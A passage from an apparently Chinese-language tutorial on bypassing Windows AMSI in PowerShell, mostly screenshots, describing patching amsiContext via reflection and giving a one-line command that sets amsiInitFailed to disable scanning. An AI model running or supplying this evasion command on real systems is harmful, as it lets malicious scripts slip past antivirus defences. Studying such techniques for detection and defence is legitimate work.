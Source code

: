   

![](https://gitee.com/fuli009/images/raw/master/public/20210904174313.png)

  

此时便已经绕过了amsi打印出了我们的字符串。下面我们使用Powershell的反射来进行Amsi的绕过，其主要信息存储在：

  

  * 

    
    
    System.Management.Automation.AmsiUtils

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904174314.png)

  

这个好说，我们可以使用循环遍历方法来绕过，主要是获取amsiContext的值：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904174315.png)

  

将其转成hex便是它的内存地址：

  

![]()

  

根据前面的测试我们知道，我们只需要patch前四个字节即可。我们将其patch之后，然后再来查看：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904174316.png)

  

此时已无AMSI，再来测试：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904174317.png)

  

当然你也可以使用下面这类方法：

  

  * 

    
    
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFai led','NonPublic,Static').SetValue($null,$true)

  

新开一个powershell测试：

  
